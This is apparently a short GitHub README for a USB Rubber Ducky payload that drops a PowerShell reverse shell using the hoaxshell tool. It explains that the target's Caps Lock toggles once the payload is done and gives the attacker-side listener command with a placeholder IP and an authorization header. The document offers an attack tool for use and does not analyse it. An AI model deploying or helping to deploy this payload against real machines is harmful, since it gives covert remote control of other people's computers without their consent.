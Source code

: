 Hoaxshell with usb RubberDucky:
-------------------------------------------

Powershell reverse shell with Authorization ID using Hoaxshell,after we insert the USB RubberDucky wait a few seconds for the payload to load and when its done the Capslook turns ON/OFF on target

on the attacker machine use the -g to remember the Authorization id
./hoaxshell.py -s X.X.X.X -r -g -H "Authorization"


*Credits for the original payload goes to t3l3machus/hoaxshell*
https://github.com/t3l3machus/hoaxshell

